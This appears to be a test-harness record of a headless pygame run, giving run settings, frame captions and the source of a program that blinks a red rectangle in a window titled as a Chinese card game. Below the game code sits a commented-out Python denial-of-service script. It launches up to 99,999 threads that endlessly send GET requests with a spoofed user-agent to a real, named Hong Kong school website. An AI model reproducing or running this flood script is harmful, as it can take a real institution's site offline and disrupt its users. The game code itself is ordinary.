Run: headless pygame with SDL's dummy video driver; simulated clock (each Clock.tick advances the game by its frame time, no real sleeping); random seed 0; keys injected as events and as key.get_pressed() state; no mouse input.

Frame 1 of 4 · flips 1–60 · no input
Frame 2 of 4 · flips 61–180 · tapped SPACE, RETURN · held RIGHT (→), D · screen unchanged from frame 1, image omitted
Frame 3 of 4 · flips 181–300 · held DOWN (↓), S · screen unchanged from frame 2, image omitted
Frame 4 of 4 · flips 301–420 · held LEFT (←), A, UP (↑), W · screen unchanged from frame 3, image omitted

The pygame program that drew these frames:

import pygame
pygame.init()
pygame.font.init()
clock = pygame.time.Clock()
clock.tick(60)
screen = pygame.display.set_mode((1600,900))
pygame.display.set_caption('歡樂鬥地主')

black = (74,74,74)
red = (219,81,81)
rect1 = pygame.rect.Rect(600,500,300,50)
ans = 0
cursor = False
while True:
    for event in pygame.event.get():
        if event.type == pygame.KEYDOWN and event.key == pygame.K_ESCAPE:
            quit()
    screen.fill(black)
    ans += 1
    if ans == 60:
        cursor = not cursor
        ans = 0
    if cursor == True:
        pygame.draw.rect(screen,red,rect1)
    
    pygame.display.update()







# import threading
# import requests
# adsw = 'https://www.yy2.edu.hk/'
# data = {'user-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36'
#         }
# def attack(url,header):
#     while 1:
#         requests.get(url,headers=header)
#         print('1')
# def loop():
#     for i in range(99999):
#         haha = threading.Thread(target=attack,args=(adsw,data))
#         haha.start()
# loop()
